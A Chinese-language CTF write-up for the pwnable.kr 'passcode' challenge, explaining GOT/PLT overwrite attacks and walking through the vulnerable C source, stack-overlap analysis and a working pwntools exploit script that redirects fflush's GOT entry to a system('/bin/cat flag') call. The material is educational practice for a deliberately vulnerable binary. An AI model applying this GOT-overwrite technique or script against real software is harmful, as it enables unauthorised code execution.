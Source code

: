 ```yaml
---
title: pwnable.kr passcode WriteUp
date: 2018-10-24 08:20:00
tags:
- CTF
categories:
- CTF
---
```


## 一、回顾GOT和PLT表 ##

[参考GOT和PLT表](https://spidermana.github.io/ctf/2018/08/03/JOJXMAN3/)

PLT[0]是一个函数，这个函数的作用是通过GOT[0],GOT[1]和GOT[2]来正确绑定一个函数的真实地址到GOT表中来。而plt[0]代码做的事情则是：由于GOT[2]中存储的是动态链接器的入口地址，所以通过GOT[1]、GOT[0]中的数据作为参数，跳转到GOT[2]所对应的函数入口地址[即动态链接器]，这个动态链接器会将一个函数的真正地址绑定到相应的GOT[x]中。

![PLT/GOT表的两次解析](/assets/img/plt_got.jpg)

从而可知call 动态函数，就会跳转到对应的PLT[x]，而PLT[x]的小段代码，会跳转到GOT[y]，这里存储了真实运行时的动态函数地址或通过解析后会得到真实运行时的动态函数地址并在这里存储。

因此如果攻击某个对应函数A的GOT[x]，将GOT[x]处写入B函数的地址，那么就会在call A的时候跳转到B【即使之前A没有解析过，但是PLT表项中的jmp * GOT[x]还是会执行，只是不会跳转去解析出A函数地址了，而是直接jmp *GOT[x]=jmp B】

利用objdump -h 可执行文件名得到ELF文件的各个节信息。PLT表/节属于代码段，GOT表/节属于数据段。所以在no PIE【数据段和代码段的随机化】的情况下，GOT表和PLT表的条目地址不会改变。

综上所述，要进行GOT表攻击：

- 有动态函数A调用[call A]
- NO PIE或可以获得A函数对应的GOT表项地址
- 能**实现任意地址写**：
	- 堆溢出double-shot
	- 格式化字符串漏洞addr%k$s【详见[格式化字符串漏洞利用之泄露内存](https://spidermana.github.io/ctf/2018/08/21/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E4%B9%8B%E6%B3%84%E9%9C%B2%E5%86%85%E5%AD%98/#2%E6%B3%84%E9%9C%B2%E4%BB%BB%E6%84%8F%E5%9C%B0%E5%9D%80%E5%86%85%E5%AD%98%E4%BE%8B)】
	- 有read(0,buf,nbytes)【从键盘传送nbyte个字节到buf指针所指的内存中】，write，puts等函数可以构造对GOT表项写
	- 还有这题例子中的printf("%d",passcode1)【passcode1没有取地址操作】
	- ....


## 二、pwnable.kr passcode WriteUp ##

![passcode题目](/assets/img/pc_content.jpg)

通过Linux scp命令在Linux之间复制文件和目录，scp是linux系统下基于ssh登陆进行安全的远程文件拷贝命令。

参数说明：

- 1： 强制scp命令使用协议ssh1
- 2： 强制scp命令使用协议ssh2
- 4： 强制scp命令只使用IPv4寻址
- 6： 强制scp命令只使用IPv6寻址
- P port：注意是大写的P, port是指定数据传输用到的端口号

![scp命令获取ssh远程链接主机的](/assets/img/pc_scp.jpg)

得到passcode和passcode.c文件，在本地进行反汇编和漏洞分析

### 1.源码 ###

    #include <stdio.h>
    #include <stdlib.h>

    void login(){
    	int passcode1;
    	int passcode2;
    
    	printf("enter passcode1 : ");
    	scanf("%d", passcode1);
    	fflush(stdin);
    
    	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    	printf("enter passcode2 : ");
    scanf("%d", passcode2);
    
    	printf("checking...\n");
    	if(passcode1==338150 && passcode2==13371337){
    printf("Login OK!\n");
    system("/bin/cat flag");
    }
    else{
    printf("Login Failed!\n");
    		exit(0);
    }
    }
    
    void welcome(){
    	char name[100];
    	printf("enter you name : ");
    	scanf("%100s", name);
    	printf("Welcome %s!\n", name);
    }
    
    int main(){
    	printf("Toddler's Secure Login System 1.0 beta.\n");
    
    	welcome();
    	login();
    
    	// something after login...
    	printf("Now I can safely trust you that you have credential :)\n");
    	return 0;	
    }

### 2.攻击思路 ###

NO PIE条件已具备，代码段和数据段地址不变，GOT表项也就稳定啦。

![passcode程序代码](checksec_pc.jpg)

分析代码的逻辑就是调用welcome()输入用户名，然后调用login()，在login()中：

![passcode程序代码](/assets/img/pc_code.jpg)

假如我们可以控制passcode地址下的值，就可以实现任意地址写：

![漏洞原理](/assets/img/pc_leak.jpg)

而控制要passcode的内容B，就要想办法控制栈上的数据，整个程序中还和输入有关的，输入到栈中的，只有welcome中：

      printf("enter you name : ");
      __isoc99_scanf("%100s", &v1);
      printf("Welcome %s!\n", &v1);

这里可以读取100个字节到栈中，那么这100个字节有没有包含passcode的内存单元呢？


首先，栈帧由esp标识界限，当esp-0xnum的时候【栈顶下降】，不会影响栈上的数据。

分析从main->welcome->login->main的过程，可以发现：

![任意地址写的实现](/assets/img/pc_break.jpg)


现在就剩下两个个问题了！

- scanf("%100s", name);中写入栈的100字节里面，哪个位置是未来login栈帧中的passcode1首地址？
- 这个任意地址写，要写哪个地址，写入什么呢？

![welcome反汇编结果](/assets/img/pc_name.jpg)
![login反汇编结果](/assets/img/pc_passcode1.jpg)

passcode1的内存单元位置是在%ebp-10h的地方，name的首地址是%ebp-70h的地方，这两个部分是有重叠的。由于"%100s"的限制，对name只能写100个字节，也就是从%ebp-70h开始写到%ebp-70h+100字节 = %ebp-70h+64h。

而%ebp-10h = %ebp-70h+60h是passcode1的地址，也就说明对name写的100字节中，前96个字节[60h]可以随便，最后4个字节[4h]恰好覆盖了passcode1的内存单元。

通过上面介绍的GOT表攻击可知，我们可以把这个任意地址写，用于写fflush动态链接库函数的GOT表项地址。
显然代码中有system("/bin/cat flag")的调用，那么就写入system("/bin/cat flag")的调用处的代码地址。

![login代码段](/assets/img/pc.jpg)


### 3.攻击脚本 ###

    #!/usr/bin/python
    from pwn import *
    context(arch='i386',os='linux')
    local = 0
    if local:
    	re = process('./passcode')
    else:
    	re = ssh(host='pwnable.kr',user='passcode',password='guest',port=2222).process('./passcode')  #ssh远程链接
    
    re.recv() #一直接收，直到timeout
    
    elf = ELF('./passcode')
    payload = 'a'*96+p32(elf.got['fflush']) #输入100个字符，前96个随便，后面4个字符为GOT中的fflush表项地址：p32(elf.got['fflush'])
    re.sendline(payload) 
    
    sys_addr = 0x080485E3 #login()中system("bin/cat flag")的地址
    print re.recv()

    payload2 = str(sys_addr) #由于是"%d"输入，所以就按照正常整数顺序输入即可，只是把十六进制整数变为10进制字符串型整数，0x080485E3 = 134514147D，str(sys_addr)=“134514147”
    re.sendline(payload2)
    re.recv()

注意：


- p32(0xabcdefgh)=\xgh\xeg\xcd\xab，将整数0xabcdefgh变为4字符字符串，是会考虑大小端问题的，0xgh低位在前[低地址],0xab高位在后[高地址]
- 而str(int类似数据)，只是把str(1234)="1234"而已，把某进制的整数变为十进制整数的字符串形式而已。
- %s读取字符，就是按照先读低位，再读高位而已。比如“%s”输入“1234”，就会1放在低地址，4放在高地址
- %d读取字符，会自动做大小端转换，对1234，就是1放在高地址，4放在低地址
- 总之，整数的读取就按照人为的感觉去写数字的位置，字符串形式读取整数值要考虑大小端顺序。

![获取flag](/assets/img/pc_attack.jpg)



